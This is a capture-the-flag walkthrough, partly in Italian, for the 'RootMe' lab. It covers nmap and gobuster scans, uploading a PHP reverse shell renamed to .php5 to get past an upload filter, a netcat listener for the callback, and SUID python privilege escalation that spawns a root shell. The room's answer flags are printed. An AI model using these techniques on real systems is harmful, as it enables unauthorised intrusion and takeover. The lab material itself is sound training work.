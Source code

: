 # RootMe

_Difficulty: Easy_

_________

# Task 1 - Deploy the machine

  # Deploy the machine
    No answer needed

__________

# Task 2 - Reconnaissance

  # Scan the machine, how many ports are open?

 - sudo nmap -p- -open -sV -sC -sS -A -T4 -Pn 'TARGET-IP'

  ![Istantanea_2023-07-31_21-44-38](https://github.com/Manganaccio/Manganaccio/assets/137283468/8ef7aa85-2e20-4da3-832f-27460e4bff48)

    Answer: 2
  
  # What version of Apache is running?

    Answer: 2.4.29

  # What service is running on port 22?

    Answer: ssh

  # Find directories on the web server using the GoBuster tool.

    No answer needed

  # What is the hidden directory?

  - gobuster dir -u http://TARGET-IP -w /usr/share/wordlists/dirb/big.txt
  
 ![Istantanea_2023-07-31_21-43-04](https://github.com/Manganaccio/Manganaccio/assets/137283468/5cad19e1-68e4-47a2-838a-8474b28c8f20)

 ![Istantanea_2023-07-31_21-48-16](https://github.com/Manganaccio/Manganaccio/assets/137283468/9c5c27fa-66e7-4551-9bfa-d2ebac51d6df)

     Answer: /panel/

__________

  # Task 3 - Getting a shell

  # user.txt

  - Per ottenere la shell sarà necessario fare l'upload del file reverse-shell.php di PentestMonkey, cambiando l'indirizzo IP (quello della macchina attaccante) e il numero della porta
  - prima di eseguire l'upload cambiare l'estensione del file in "php5" perchè il sito non ammette il caricamento di file in "php"

 ![Istantanea_2023-07-31_21-48-48](https://github.com/Manganaccio/Manganaccio/assets/137283468/5f9520c2-c2ea-4655-abb1-870567231212)

  - in un terminale eseguire il comando: nc -lvnp PORT (la porta da selezionare dovrà essere la medesima inserita nel file reverse-shell)
  - nel browser navigare nella pagina http://TARGET-IP/uploads/ e aprire la reverse-shell caricata in precedenza

 ![Istantanea_2023-07-31_22-16-49](https://github.com/Manganaccio/Manganaccio/assets/137283468/df9f36bc-9f33-4a49-a1e0-f103e1a86703)

  - per trovare la flag user.txt navigare in /var/www

 ![Istantanea_2023-07-31_22-20-53](https://github.com/Manganaccio/Manganaccio/assets/137283468/c9292a59-6c4d-4b69-9232-cab7317020e5)

     Answer: THM{y0u_g0t_a_sh3ll}

_________

# Task 4 - Privilege escalation

# Search for files with SUID permission, which file is weird?

- Selezionare il comando: find / -user root -perm /4000

      Answer: /usr/bin/python

# Find a form to escalate your privileges.

      No answer needed

# root.txt

- Navigare su [GTFOBins](https://gtfobins.github.io/) e nella pagina di python cercare la voce SUID (come suggerito a inizio task)
- nel terminale digitare il comando: /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
- navigare nella cartella root per trovare la flag root.txt o eseguire il comando: cat /root/root.txt

![Istantanea_2023-07-31_22-53-35](https://github.com/Manganaccio/Manganaccio/assets/137283468/ee007094-dd1b-4094-bff5-93938af2d7fa)

      Answer: THM{pr1v1l3g3_3sc4l4t10n}
  

